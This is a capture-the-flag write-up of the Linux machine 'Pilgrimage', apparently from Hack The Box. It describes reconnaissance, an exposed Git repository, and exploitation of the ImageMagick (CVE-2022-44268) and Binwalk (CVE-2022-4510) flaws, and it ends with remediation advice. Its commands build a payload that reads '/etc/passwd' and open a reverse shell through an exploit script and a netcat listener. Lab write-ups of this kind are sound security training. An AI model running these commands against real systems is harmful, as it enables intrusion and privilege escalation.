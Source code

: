 ## General Information
- Machine: Pilgrimage
- Difficulty: Easy
- OS: Linux
- Date: 15/07/2023


## Methodology
- Reconnaissance: The execution of network scanning using nmap allowed the identification of services running on open ports
- Exploration: 
    - Manipulation of files and directories, such as downloading the Git repository using git-dumperindex.php and exploring the /shrunk directory, was performed. 
    - The identified vulnerabilities, such as CVE-2022-44268 and CVE-2022-4510, were exploited to gain unauthorized access and escalate privileges.
    - Detailed hexadecimal analysis of files, such as using the "identify -verbose" command and decoding with CyberChef, was performed to extract hidden information.
- Results Analysis:Documentation of findings, identification of vulnerabilities, and recommendations for remediation.


## Results
During the port scan, two open ports (SSH and HTTP) were discovered, including an HTTP-based Git repository. The repository was downloaded using git-dumperindex.php. A vulnerability (CVE-2022-44268) in ImageMagick was identified, enabling arbitrary file reading on the website. Exploiting this vulnerability provided access to system files, revealing the username "Emily" and her SSH password. Within the system, the "userflag.txt" file was found. Additionally, a vulnerability (CVE-2022-4510) in Binwalk v2.3.2 was detected, allowing for privilege escalation to root. By exploiting this vulnerability, it was possible to obtain access to the root.txt file.

### Reconnaissance
- 10.10.11.219
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
- http-git: 10.10.11.219:80/.git/


- Port Scan results:

| Port     | State | Service      | Version         |
|----------|-------|--------------|-----------------|   
| 22/tcp   | open  | ssh          | OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0) |
| 80/tc    | open  | http | nginx 1.18.0 |


### Commands and analyzes used

#### Nmap
~~~nmap
nmap -sV -sC 10.10.11.219 -oN nmap-scan.txt
~~~

#### git-dumper
~~~git-dumper
python3 git_dumper.py http://pilgrimage.htb/.git/ git 
~~~

#### script-CVE-2022-44268
~~~CVE-2022-44268
python3 generate.py -f  "/etc/passwd"  -o exploit.png
~~~

~~~
python3 generate.py -f  "/var/db/pilgrimage"  -o exploit.png 
~~~

#### script-CVE-2022-4510 
~~~
python3 exploit.py photo.jpg <ip> <port>
~~~

### netcat
~~~ 
nc -lvnp <port>
~~~


## Exploited Vulnerabilities
- Exposed Git repository
- CVE-2022-44268, i.e. ImageMagick 7.1.0-49 is vulnerable to Information Disclosure. When it parses a PNG image (e.g., for resize), the resulting image could have embedded the content of an arbitrary remote file (if the ImageMagick binary has permissions to read it).
- CVE-2022-4510: Binwalk v2.3.2 has a vulnerability that allows for remote command execution, enabling privilege escalation.


## Recommendations
- Secure the Git repository: Ensure that the Git repository is not publicly exposed and implement access controls to restrict unauthorized access.
- Patch and update ImageMagick: Upgrade ImageMagick to a patched version that addresses the CVE-2022-44268 vulnerability to prevent information disclosure attacks.
- Patch Binwalk: Update Binwalk to a patched version that resolves the CVE-2022-4510 vulnerability, mitigating the potential for remote command execution and privilege escalation.
- Secure file handling: Implement proper file handling practices, such as validating user input and enforcing file upload restrictions, to prevent the execution of malicious files or unauthorized access to sensitive information.
- User authentication and authorization: Implement strong user authentication mechanisms, including complex passwords and multi-factor authentication, to protect against unauthorized access to user accounts.